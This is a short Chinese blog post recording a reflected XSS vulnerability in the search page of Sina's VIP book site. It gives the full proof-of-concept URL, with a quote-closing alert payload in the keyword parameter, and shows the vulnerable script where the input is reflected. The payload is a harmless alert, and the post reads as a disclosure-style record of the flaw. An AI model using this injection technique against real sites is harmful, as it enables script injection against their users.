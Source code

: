 ```yaml
---
layout: post
title: "新浪一个反射xss记录"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

	http://vip.book.sina.com.cn/?p=book&s=search&a=index&keyword=%27%3Balert%2811%29%3B%2F%2F&type=4&pub=0&cate=&vip=0&status=0&order=&dpc=1

keyword参数，搜索框

查看一处输出在script函数里。经过测试，没有过滤单引号。

	function statSearch(logArr) {
    var d = new Date();
    var uniqueKey = d.getTime().toString() + Math.floor(Math.random()*1000+1).toString();

    var queryKey = '';alert(11);//';

    var refererKey = 'http://vip.book.sina.com.cn/?p=book&amp;amp;s=search&amp;amp;a=index&amp;amp;keyword=%27%3Balert%28%29%3B%2F%2F&amp;amp;type=4&amp;amp;pub=0&amp;amp;cate=&amp;amp;vip=0&amp;amp;status=0&amp;amp;order=&amp;amp;dpc=1';
    var log = [];

通过单引号闭合，然后用//注释掉后面的语句。

截图留念：

![xss1]({{site.img_url}}sina/xss1.png)



